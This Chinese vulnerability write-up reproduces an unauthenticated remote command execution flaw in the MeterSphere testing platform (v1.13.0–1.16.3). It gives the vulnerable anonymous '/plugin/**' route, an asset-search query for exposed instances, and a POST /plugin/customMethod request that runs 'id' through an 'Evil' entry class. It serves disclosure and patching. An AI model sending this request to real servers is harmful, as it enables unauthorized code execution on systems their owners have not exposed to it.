 # MeterSphere customMethod 远程命令执行漏洞

## 漏洞描述

2022年1月5日，知道创宇404积极防御实验团队发现了MeterSphere开源持续测试平台的一处漏洞，并向MeterSphere研发团队进行了反馈。通过该漏洞攻击者可以在未授权的情况下执行远程代码，建议MeterSphere平台用户，尤其是可通过公网访问的用户尽快进行升级修复

## 漏洞影响

<a-checkbox checked>MeterSphere v1.13.0 - v1.16.3</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="MeterSphere"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1641555749774-16f5fa84-eed7-4ec7-8c9d-0daf4085f543.png)

根据官方的修复可以看到目前版本的修复版本为删除代码片段

filterChainDefinitionMap.put("/plugin/**", "anon");

```go
https://github.com/metersphere/metersphere/pull/9140/files
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1641555879489-faa94a48-65aa-4eb5-b116-434b10b0895a.png)

查看文件 **/backend/src/main/java/io/metersphere/controller/PluginController.java**

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1641556024273-44267007-49eb-46c6-b0fd-237b0fad9d74.png)

发送请求包

```go
POST /plugin/customMethod

{"entry":"Evil","request":"id"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1641559411956-ce8b8be3-71db-4c31-95fa-d75a00adce85.png)